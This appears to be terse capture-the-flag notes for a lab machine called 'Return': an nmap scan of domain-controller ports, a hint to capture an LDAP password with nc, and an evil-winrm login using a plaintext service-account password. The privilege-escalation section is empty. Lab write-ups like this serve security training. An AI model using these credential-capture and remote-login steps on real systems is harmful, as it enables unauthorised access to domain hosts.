


# Return

## NMAP

```text
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49675/tcp open  unknown          syn-ack ttl 127
49678/tcp open  unknown          syn-ack ttl 127
49681/tcp open  unknown          syn-ack ttl 127
49697/tcp open  unknown          syn-ack ttl 127
```

## Web


use nc to capture ldap password


## Evil-Winrm

```bash
evil-winrm -u "svc-printer" -p '1edFg43012!!'  -i $IP 
```

## Priv-esc




